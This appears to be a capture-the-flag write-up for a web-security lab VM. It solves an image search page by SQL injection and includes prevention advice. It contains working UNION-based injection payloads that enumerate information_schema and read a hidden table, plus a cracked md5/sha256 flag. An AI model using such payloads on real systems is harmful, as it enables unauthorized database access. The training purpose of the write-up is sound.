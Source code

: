 # SQL Injection - Image Search

SQL injection is a type of injection attack. Injection attacks occur when maliciously crafted inputs 
are submitted by an attacker, causing an application to perform an unintended action.


## Exploit

Go to page:

{VM_IP}/index.php?page=searchimg

Insert the following commands into the image search bar:

### Test if vulnerable to SQL Injection

```1 OR 1=1```

We get all the results because every row is considered true.

### Get the table names in the database

```1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.TABLES```

Here we find:

* Title: list_images
* Url : Member_images

### Find table columns in the database for each table

```1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.COLUMNS```

Here find the following table structure:

* Table name: list_images,
column : id
* Table name: list_images,
column : url
* Table name: list_images,
column : title
* Table name: list_images,
column : comment

### Look at the comment below each member's image

```1 OR 1=1 UNION SELECT title, comment FROM Member_images.list_images```

Here we find:

* Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
* Url : Hack me ?

### Hash

[md5_decrypt](https://md5decrypt.net)(1928e8083cf461a51303633093573c46) = albatroz

[sha256](https://md5decrypt.net/Sha256)(albatroz) = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

flag = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


## Use

A successful SQL injection attack can:
- read sensitive data from the database, 
- modify database data (insert/update/delete), 
- execute administration operations on the database (such as shutdown the DBMS), 
- recover the content of a given file existing on the DBMS file system or write files into the file system, 
- in some cases, issue commands to the operating system.

## Prevention

- You should always use parameterized statements where available, 
they are your number one protection against SQL injection.
- [Here](https://www.hacksplaining.com/prevention/sql-injection#code-samples) are some code samples in various languages.
- Principle of Least Privilege: applications should ensure that each process or software component can access and affect only the resources it needs. 
Apply “levels of clearance” as appropriate.
